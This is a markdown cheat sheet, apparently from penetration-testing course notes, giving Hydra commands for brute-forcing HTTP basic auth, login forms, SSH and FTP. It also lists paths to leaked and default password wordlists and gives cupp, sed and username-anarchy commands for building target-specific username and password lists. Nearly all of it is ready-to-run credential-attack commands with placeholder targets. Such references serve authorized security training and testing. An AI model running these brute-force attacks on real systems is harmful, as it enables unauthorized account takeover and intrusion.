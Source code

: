 # Hydra

| **Command**   | **Description**   |
| --------------|-------------------|
| `hydra -C wordlist.txt SERVER_IP -s PORT http-get /` | Basic Auth Brute Force - Combined Wordlist |
| `hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get /` | Basic Auth Brute Force - User/Pass Wordlists |
| `hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"` | Login Form Brute Force - Static User, Pass Wordlist |
| `hydra -L bill.txt -P william.txt -u -f ssh://SERVER_IP:PORT -t 4` | SSH Brute Force - User/Pass Wordlists |
| `hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1` | FTP Brute Force - Static User, Pass Wordlist |
> we can tell hydra to stop after the first successful login by specifying the flag `-f`  
> We will add the `-u` flag, so that it tries all users on each password, instead of trying all 14 million passwords on one user, before moving on to the next.


# Wordlists

| **Command**   | **Description**   |
| --------------|-------------------|
| `/usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt` | Default Passwords Wordlist |
| `/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt` | Common Passwords Wordlist |
| `/usr/share/seclists/Usernames/Names/names.txt` | Common Names Wordlist |

# Misc

| **Command**   | **Description**   |
| --------------|-------------------|
| `hydra -h \| grep "Supported services" \| tr ":" "\n" \| tr " " "\n" \| column -e` | show support services |
| `hydra http-post-form -U` | list the parameters it requires and examples of usage |
| `cupp -i` | Creating Custom Password Wordlist |
| `sed -ri '/^.{,7}$/d' william.txt` | Remove Passwords Shorter Than 8 |
| ```sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt``` | Remove Passwords With No Special Chars |
| `sed -ri '/[0-9]+/!d' william.txt` | Remove Passwords With No Numbers |
| `./username-anarchy Bill Gates > bill.txt` | Generate Usernames List ||
